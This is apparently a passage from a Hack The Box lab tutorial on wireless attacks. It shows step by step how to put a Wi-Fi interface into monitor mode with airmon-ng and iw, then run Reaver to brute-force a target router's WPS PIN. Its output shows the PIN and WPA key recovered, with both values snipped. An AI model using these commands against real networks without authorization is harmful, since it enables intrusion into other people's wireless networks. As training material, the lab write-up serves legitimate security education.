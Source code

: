 We will use Reaver to brute-force the WPS PIN. However, due to a known bug, setting the interface to monitor mode using airmon-ng can cause Reaver to malfunction. To avoid this, we'll first stop the interface in monitor mode with airmon-ng. Then, we'll use the iw command to add a new interface named mon0 and set its type to monitor mode.

```shell
airmon-ng stop wlan0mon

PHY	    Interface	    Driver		    Chipset

phy1	wlan0mon	    rt2800usb	    Ralink Technology, Corp. RT2870/RT3070
		           (mac80211 station mode vif enabled on [phy1]wlan0)
		           (mac80211 monitor mode vif disabled for [phy1]wlan0mon)

```

```shell
iw dev wlan0 interface add mon0 type monitor
ifconfig mon0 up
iwconfig

wlan0     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on

mon0      IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

eth0      no wireless extensions.

lo        no wireless extensions.

```

Once our interface is in monitor mode, we can launch Reaver, specifying the BSSID of our target, the appropriate channel, and our interface in monitor mode (mon0) to begin the WPS PIN brute-force attack.

```shell
reaver -i mon0 -c 1 -b 28:B2:BD:F4:FF:F1

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <[email protected]>

[+] Waiting for beacon from 28:B2:BD:F4:FF:F1
[+] Received beacon from 28:B2:BD:F4:FF:F1
[!] Found packet with bad FCS, skipping...
[+] Associated with 28:B2:BD:F4:FF:F1 (ESSID: HackTheBox)
[+] WPS PIN: '<SNIP>'
[+] WPA PSK: '<SNIP>'
[+] AP SSID: 'HackTheBox'

```
